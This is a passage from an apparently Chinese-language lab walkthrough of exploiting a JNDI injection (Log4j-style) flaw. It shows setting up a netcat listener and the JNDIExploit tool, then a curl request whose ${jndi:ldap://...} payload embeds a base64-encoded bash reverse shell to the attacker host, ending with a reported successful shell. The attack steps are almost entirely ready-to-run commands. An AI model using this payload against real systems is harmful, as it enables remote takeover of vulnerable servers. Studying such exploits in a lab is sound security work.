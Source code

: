 2.攻击机监听指定端口（在此选择7777端口），之后运行JNDEExploit工具监听在attackerIP上。

```
# 攻击机监听7777端口
nc -l -p 7777
# 运行JNDEExploit工具
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.109.5
```

![漏洞利用1-2步](picture/漏洞利用1-2步.png)

3.使用攻击机发送漏洞利用请求，可以看到反弹shell成功的结果

```
 curl -G http://192.168.109.4:22220//hello --data-urlencode 'payload=${jndi:ldap://192.168.109.5:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.109.5/7777 0>&1' | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')'}'
```

![漏洞利用第3步](picture/漏洞利用第3步.png)
